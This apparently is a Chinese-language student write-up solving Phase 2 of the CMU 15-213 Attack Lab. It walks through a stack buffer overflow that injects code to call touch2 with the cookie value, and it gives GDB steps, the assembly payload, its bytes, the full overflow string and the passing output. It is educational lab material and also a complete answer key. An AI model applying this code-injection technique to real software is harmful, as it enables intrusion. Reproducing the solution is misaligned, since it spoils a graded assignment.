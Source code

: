 # Phase2

基本目标：原来 test 函数执行完 getbuf 后，会将控制权返回到 test。现在要求执行 getbuf 时，通过代码注入的方式
来执行 touch2，并且传递 cookie 的值作为第一个参数。

## 用到的一些基本知识

1. 寄存器 rdi 用来储存第一个参数
2. 当 test 执行 getbuf 时，需要调用 call 执行（假设 P call Q）。执行 call 时，会将下一条指令地址（即 P 中 call 指令的下一条指令地址）压栈，用于 Q ret 时再取出，作为 PC 继续执行的地址。
   ![image](https://user-images.githubusercontent.com/9459488/147803454-404dce3e-6ed4-449c-98d8-e39285055faa.png)
3. 执行 getbuf 时，使用 sub 来申请一段栈空间。我们在这个栈空间里输出内容，当超出了栈空间大小时，就会覆盖到第 2 步中提到的 ret 后的返回地址。
   ![image](https://user-images.githubusercontent.com/9459488/147803497-fc52b6d2-f32c-41b1-9c12-80e71689e0bc.png)


## 解题逻辑

![image](https://user-images.githubusercontent.com/9459488/147803518-f2b4d572-d568-4398-a13b-320cda2e7af1.png)

1. 覆盖原来的 test 中 getbuf ret 后的指令地址为我们注入的代码地址 $ci_addr
2. 注入代码中压入 touch2 的地址到栈，便于 ret 时取出
3. 在注入代码中设定 cookie 值为第一个参数


![image](https://user-images.githubusercontent.com/9459488/147803543-b1ce695d-b74c-4b47-a779-48efef6d0e09.png)


> 另：从图中，我们可以看到代码段 text 地址是 0x4017ec，地址数值相对小，而栈的地址大。这个和内存映像正好也对应上了。

## 获取几个重要值

1. 获取 getbuf stack frame 最后一行储存 buf 的开始地址为 `0x5561dc78`

   使用 GDB 进行如下调试拿到 getbuf 栈的最后一行储存 buf 的开始地址，即
   ```shell
   gdb target
   b getbuf
   r -q
   ni # 执行完 sub $28
   x $rsp # 查看 rsp 地址，输出 0x5561dc78
   ```

2. 获取 cookie 内容。这个内容是一个立即数 `0x59b997fa`


3. 获取 touch2 函数入口地址 `0x4017ec`
   ```shell
   gdb ctarget

   disas touch2
   ```

   得到
   ```s
   Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   ```

## 生成注入代码

`exploit2.s`

```s
pushq $0x4017ec
movq  $0x59b997fa, %rdi
retq
```

执行以下指令，生成注入字节

```shell
gcc -c  exploit2.s
objdump -d exploit2.o > exploit2.d
```

得到 `exploit2.d`

```text
exploit2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq   
```


最后得到注入的指令字节是

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3
```


我们需要填充整个 getbuf 的栈，同时把 ret 原来返回 test 的指令地址覆盖为我们注入代码的首地址。即 buf 的开始地址

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa /* padding 0x28 (40) bytes */
78 dc 61 55 00 00 00 00 /* 0x5561dca0 - 0x28 */
```

## 解题

```shell
./hex2raw < exploit2.txt > raw2.txt # 生成注入字节

./ctarget -q -i ./raw2.txt # 输入
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA 78 DC 61 55 00 00 00 00 
```
